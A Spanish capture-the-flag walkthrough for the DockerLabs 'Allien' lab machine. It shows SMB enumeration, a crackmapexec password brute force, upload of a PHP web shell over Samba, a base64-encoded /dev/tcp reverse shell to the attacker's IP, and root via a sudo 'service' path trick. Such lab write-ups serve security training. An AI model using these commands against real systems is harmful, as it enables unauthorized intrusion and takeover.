

# Maquina Allien - DockerLabs.es

Verificar que la maquina este desplegada correctamente

Realizamos un ping a la máquina para verificar la comunicación y confirmamos que la conexión es exitosa.

A continuación, realizamos un escaneo de la IP utilizando Nmap.

Observamos que los puertos 22, 80, 139 y 445 estan abiertos. Ahora realizamos un escaneo adicional para detectar, enumerar servicios y versiones.

Primero nos centraremos en el puerto 80 que correo un servicio de Apache, entraremos desde el navegador.

Nos encontramos con un Login en el cual no podemos hacer mucho.

Al aplicar técnicas de Fuzzing en el sitio web, obtendremos los siguientes resultados...

Si entramos a `productos.php` veremos una página, en la cual tampoco tenemos mucho que hacer, al igual que `info.php`...

Ahora nos enfocaremos en los puertos 445 y 139, que están ejecutando Samba. Nuestro objetivo es identificar usuarios válidos que podrían permitirnos acceder a información compartida a través de estos servicios. Para ello, realizaremos una enumeración de usuarios y más utilizando la herramienta `enum4linux`, de la siguiente manera:

`enum4linux -a 172.17.0.2`

Hemos identificado varios usuarios, y ahora utilizaremos el usuario `satriani7` para llevar a cabo un ataque de fuerza bruta empleando `crackmapexec`, de la siguiente manera:

`crackmapexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt`

Esto intentará iniciar sesión con cada una de las contraseñas del diccionario que le proporcionemos. Hemos verificado que la contraseña del usuario es `50cent`.

Ahora, si utilizamos una herramienta llamada `smbmap` para enumerar los recursos compartidos con las credenciales `satriani7` como usuario y `50cent` como contraseña, obtendremos lo siguiente...

Al enumerar los recursos disponibles, encontraremos una variedad de archivos. Sin embargo, el que nos interesa se encuentra en la ruta `backup24/Documents/Personal`, y se trata de un archivo llamado `credentials.txt`.

Para facilitar nuestro trabajo, utilizaremos `smbclient` para conectarnos y navegar entre los archivos, así como para descargar el archivo que nos interesa. La conexión se realizará de la siguiente manera:

`smbclient //172.17.0.2/backup24/ -U satriani7%50cent`

Una vez conectados, nos desplazaremos al directorio donde se encuentra el archivo que nos interesa.

Una vez dentro, descargaremos el archivo utilizando el comando `get`, lo que nos permitirá tenerlo disponible en nuestro ordenador.

Al revisar el contenido de dicho archivo, observaremos que incluye varias credenciales.

Hay un usuario que destaca: `administrador`. Recordemos que al realizar la enumeración de usuarios con `enum4linux`, también encontramos un usuario llamado `administrador`.

Si intentamos enumerar los recursos compartidos nuevamente con `smbmap`, esta vez utilizando `administrador` como usuario y `Adm1nP4ss2024` como contraseña (que encontramos en el archivo credentials.txt), notaremos que los recursos enumerados cambian en cuanto a los permisos. Ahora tendremos acceso a la carpeta de `home`.

Ahora nos conectaremos nuevamente con `smbclient` de la siguiente manera:

`smbclient //172.17.0.2/home -U administrador%Adm1nP4ss2024`

Al listar el contenido de dicha carpeta, notaremos que los archivos presentes coinciden exactamente con los que encontramos al aplicar Fuzzing en la página web.

#### Recursos Compartidos

#### Encontrados con Fuzzing

En este punto, lo que se me ocurre es intentar subir un archivo `.php` malicioso en esta carpeta de `home` utilizando `smbclient` para escalar esto a un RCE.

Primero creamos el `.php` malicioso en nuestra maquina.

Una vez conectados al servidor con `smbclient`, subimos el archivo utilizando el comando `put pwned.php pwned.php`, y confirmaremos que ya se ha subido correctamente.

Ahora, si ejecutamos el archivo `.php` que subimos desde el navegador y le pasamos el parámetro `cmd` que definimos, veremos que ya tenemos ejecución de comandos.

Ahora, procederemos a lanzar una shell inversa.

Primero, nos pondremos a la escucha con Netcat en el puerto 4444.

Convertimos nuestra shell inversa en Base64.

Y luego ejecutamos esto en el parametro `cmd`
`echo c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo= |base64 -d |bash`

Y ya estariamos dentro.

## Tratamiento de la TTY

**Para trabajar de manera mas cómoda haremos lo siguiente:**
Una vez estemos dentro ejecutamos el siguiente comando: `script /dev/null -c bash`

Luego presionamos: `Ctrl + Z` para suspender el proceso

A continuación, escribimos: `stty raw -echo; fg`

Despues ingresamos: `reset`

Cuando se nos pregunte: "Terminal type?" Ingresamos `xterm`.

Finalmente, exportamos las siguientes variables de entorno: `export TERM=xterm` `export SHELL=bash`

Y listo!

## Escalada de Privilegios

Si ejecutamos un `sudo -l` veremos que podemos ejecutar el binario `/usr/sbin/service` como cualquier usuario sin proporcionar contraseña.

Nos aprovecharemos de estos permisos de la siguiente manera para poder escalar privilegios:

`sudo /usr/sbin/service ../../bin/bash`

Y ya obtendriamos una shell como root.
